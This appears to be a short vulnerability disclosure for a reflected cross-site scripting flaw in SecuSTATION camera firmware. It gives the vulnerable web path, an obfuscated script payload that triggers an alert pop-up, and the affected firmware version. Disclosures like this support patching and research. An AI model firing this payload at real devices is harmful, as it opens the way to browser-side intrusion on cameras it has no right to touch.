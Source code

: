 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100348501.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100507713.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](C:\Users\酸菜鱼\Desktop\camera\assets\image-20241217100543071.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































